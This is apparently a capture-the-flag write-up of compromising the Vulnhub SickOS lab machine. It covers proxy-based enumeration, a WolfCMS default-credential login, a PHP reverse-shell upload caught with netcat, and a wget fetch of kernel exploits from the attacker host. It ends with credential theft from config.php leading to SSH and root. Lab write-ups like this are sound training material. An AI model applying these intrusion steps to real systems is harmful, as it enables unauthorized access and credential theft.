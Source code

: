 # Vulnhub SickOS 

**My SetUp**
- VMware Workstation Pro
- Kali: 172.16.126.129
- SickOS: 172.16.126.135

(I used NAT for both Machines)

## Nmap

`sudo nmap -vvv -sC -sV 172.16.126.135 -oA sickos`

![nmap](https://user-images.githubusercontent.com/76433661/152642864-d4d8492b-a383-4ce3-a47b-8953aae8d859.png)


Port 22, 3128, and 8080 seemed to be opened.

SSH is usually not worthit unless SSH version is severely outdated, so I decided to move on to port 3128 right away. 

## Checking out Port 3128

In order to check out port 3128 on web browser, little change with the browser network setting has to be made. (I used firefox)

![firefox_proxy_setup](https://user-images.githubusercontent.com/76433661/152642919-401787be-ea0f-4d78-be0c-928dcfb6fc74.png)

Browser has to go through proxy (port 3128) in order to access the page. 

![blehh](https://user-images.githubusercontent.com/76433661/152642953-584290dc-cdef-4845-8b82-8d76bba55bb8.png)

I could only see the ugly `blehhh` on the page so I tried looking for more directories. 

I always check out `robots.txt` first and it seemed like there is a page running `wolfcms`.

Now I moved to `172.16.126.135/wolfcms`.

![wolfcms](https://user-images.githubusercontent.com/76433661/152643029-11dd67b4-b782-499b-8248-8f34bc591b15.png)

Before searching for vulnerbilities for wolfcms, I wanted to see if there are more hidden directories, so I ran `dirb`.

Dirb needs to go through proxy so used the command below.

`dirb http://172.16.126.135/wolfcms -p 172.16.126.135:3128`

But nothing special showed up. 

After doing some researches, I decided to use exploit from [Arbitrary File Upload Vuln](https://www.exploit-db.com/exploits/38000).

I found out there is an admin page at `172.16.126.135/?/admin`.

![login](https://user-images.githubusercontent.com/76433661/152643116-c9dcd892-8369-4da1-b034-dc7e685c2816.png)

Even before trying bruteforcing, I tired `admin;admin` and it worked right away.

![main](https://user-images.githubusercontent.com/76433661/152643172-f65d45f7-c63a-46cf-bcfc-4012c788c053.png)

## Exploitation

Now that I am inside the system, only thing I need to do is to upload arbitrary PHP file, and capture the reverse shell with the nc command. 

I used [pentestmonkey php revershell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to upload my code on the system.

And my Kali machine was waiting to capture the signal with the command `nc -lvp 1234`

After that, I went to PHP file link through browser using the following link `http://172.16.126.135/wolfcms/public/shell.php`.

Now I checked my kali terminal, and I had a shell popped open. 

![shell](https://user-images.githubusercontent.com/76433661/152643328-bd97c07c-0dfb-4923-b709-9a4e67290be9.png)

## Getting the root access

Now that I have a working shell, I need to gain root access. 

At first, I thought this is a privilege escalation problem so I researched lot about Kernel exploitation. I donwloaded two exploit from exploit-db.com, and copied the file over to `/tmp` folder using `python3 -m http.server` and `wget http://172.16.126.129:8000/exploit.c`.

However, after several tries, I found out I am stuck and moved on to different perspective.

I moved my directory to `/var/www/wolfcms` to see what information I can find. 

![ls_wolfcms](https://user-images.githubusercontent.com/76433661/152644770-c0ecb483-5b6a-46ef-aca9-01ec68447f41.png)

I took a look at `config.php` file, and there was mysql username and password. *findout the password and username byyouself*

Now that I have potential username and password, I tried `ssh`.

I first tried the username `root`, but it was not it, so I tired the username `sickos`, which worked out. 

![ssh](https://user-images.githubusercontent.com/76433661/152644825-81891229-0ae7-4973-a5f8-db0a728a75c0.png)

I changed the user by `sudo su root`

Moved my working directory to `/root` and found the flag. 

![end](https://user-images.githubusercontent.com/76433661/152644896-43482539-fcda-4920-b988-48db3dac8ea8.png)


